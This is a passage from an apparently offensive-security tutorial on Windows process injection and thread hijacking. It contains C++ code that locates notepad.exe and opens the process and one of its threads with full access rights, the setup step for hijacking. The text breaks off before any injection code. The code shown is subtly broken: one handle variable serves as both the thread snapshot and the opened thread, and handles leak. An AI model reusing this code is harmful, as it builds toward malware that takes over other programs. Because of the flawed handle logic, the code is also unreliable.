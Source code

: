 The Injection and Hijacking logic is the same as we mentioned before.

**Complete code:**

```cpp

#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

BOOL FindNotepadProcess(OUT DWORD* dwProcessID, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        fprintf(stderr, "Failed to create process snapshot: %lu\n", GetLastError());
        return FALSE;
    }

    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);
    if (!Process32First(hSnapshot, &pe32)) {
        CloseHandle(hSnapshot);
        fprintf(stderr, "Failed to retrieve the first process: %lu\n", GetLastError());
        return FALSE;
    }

    do {
        if (_wcsicmp(pe32.szExeFile, L"notepad.exe") == 0) {
            *dwProcessID = pe32.th32ProcessID;
            *hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, *dwProcessID);
            if (*hProcess == NULL) {
                fprintf(stderr, "Failed to open process: %lu\n", GetLastError());
                CloseHandle(hSnapshot);
                return FALSE;
            }

            *hThread = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
            if (*hThread == INVALID_HANDLE_VALUE) {
                fprintf(stderr, "Failed to create thread snapshot: %lu\n", GetLastError());
                CloseHandle(*hProcess);
                CloseHandle(hSnapshot);
                return FALSE;
            }

            THREADENTRY32 te32;
            te32.dwSize = sizeof(THREADENTRY32);
            if (!Thread32First(*hThread, &te32)) {
                fprintf(stderr, "Failed to retrieve the first thread: %lu\n", GetLastError());
                CloseHandle(*hThread);
                CloseHandle(*hProcess);
                CloseHandle(hSnapshot);
                return FALSE;
            }

            do {
                if (te32.th32OwnerProcessID == *dwProcessID) {
                    *hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, te32.th32ThreadID);
                    if (*hThread != NULL) {
                        CloseHandle(hSnapshot);
                        return TRUE;
                    }
                }
            } while (Thread32Next(*hThread, &te32));
        }
    } while (Process32Next(hSnapshot, &pe32));

```